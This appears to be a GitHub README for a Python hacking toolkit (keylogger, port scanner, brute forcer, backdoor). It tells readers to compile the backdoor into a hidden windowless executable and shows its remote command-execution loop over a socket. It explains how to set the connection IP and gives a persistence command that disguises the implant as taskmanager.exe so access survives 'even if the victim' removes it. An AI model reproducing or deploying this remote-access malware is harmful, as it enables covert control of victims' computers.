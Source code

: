 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112891291-a4fc3c00-90e0-11eb-81bd-604dd01c9b0d.PNG)
### due to some complications in server.py and backdoor.py You must replace the code blocks that write 127.0.0.1 with the local IP address.
# LIKE THIS

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('127.0.0.1',5555))

s.connect(('127.0.0.1',5555))
```
# TO THIS
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('192.1.2.12',5555))

s.connect(('192.1.2.12',5555))
```
# about deactivated lines of code
### some processes develop differently in your Linux and Windows operating systems.
### programs have been deactivated because some processes cannot run at the same time even if they are written in both.
### You can customize the lines of code you can also activate the startup codes I use to see if it works.
Even if the victim sees the file, closes it or removes it completely, write this code to your terminal after connecting to protect your connection
```python
persistence Hacked taskmanager.exe
```
you can change the name Hacked immediately noticeable taskmanager.exe is fine
